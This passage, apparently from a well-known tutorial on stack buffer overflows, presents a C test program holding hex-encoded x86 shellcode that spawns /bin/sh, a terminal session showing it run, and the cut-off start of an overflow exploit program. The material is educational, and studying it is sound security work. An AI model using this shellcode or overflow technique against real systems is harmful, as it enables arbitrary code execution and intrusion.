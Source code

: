         int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
					# 46 bytes total
	");
	}

And our new test program:

*testsc2.c*

	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";

	void main() {
		int *ret;

		ret = (int *)&ret + 2;
		(*ret) = (int)shellcode;

	}

`[aleph1]$ gcc -o testsc2 testsc2.c`

`[aleph1]$ ./testsc2`

`$ exit`

`[aleph1]$`

---

>Writing an Exploit
*(or how to mung the stack)*

Lets try to pull all our pieces together.  We have the shellcode.  We know
it must be part of the string which we'll use to overflow the buffer.  We 
know we must point the return address back into the buffer.  This example will
demonstrate these points:

*overflow1.c*
	
	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";

		char large_string[128];

	void main() {
		char buffer[96];
		int i;
		long *long_ptr = (long *) large_string;

		for (i = 0; i < 32; i++)
		*(long_ptr + i) = (int) buffer;
